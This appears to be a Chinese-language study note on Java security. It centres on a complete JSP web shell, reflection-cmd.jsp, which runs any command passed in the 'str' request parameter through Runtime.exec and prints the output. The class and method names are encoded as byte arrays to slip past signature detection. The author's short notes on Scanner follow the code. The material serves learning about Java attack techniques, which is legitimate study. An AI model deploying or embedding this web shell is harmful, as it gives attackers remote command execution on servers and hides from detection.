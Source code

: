 # 反射Runtime命令执行

**reflection-cmd.jsp示例代码：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101}); // 解码字节数组构造字符串

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = Class.forName(rt);

    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

    // 反射调用Runtime.getRuntime().exec(xxx)方法
    Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});
   // 这里先调用 getRuntime 方法拿到 RUntime类实例对象，之后调用在其上调用 exec 方法

    // 反射获取Process类的getInputStream方法
    Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";

    // 输出命令执行结果
    out.println(result);
%>
```

前面的各种代码操作都没什么问题，不过最后这个 new Scanner 可以做个笔记：

![image-20230517104521932](picture/image-20230517104521932.png)

注释告诉我们，这个方法会把来自流中的字节转换成字符，看起来和之前的 toByteArray 作用是一样的

然后有个 s.next()，这个方法用来从 Scanner 返回下一个完整的 token，没懂这个 token 什么意思。

![image-20230517105509845](picture/image-20230517105509845.png)

但是返回值是字符串类型，猜测应该就是返回扫描器里面存放的字符串。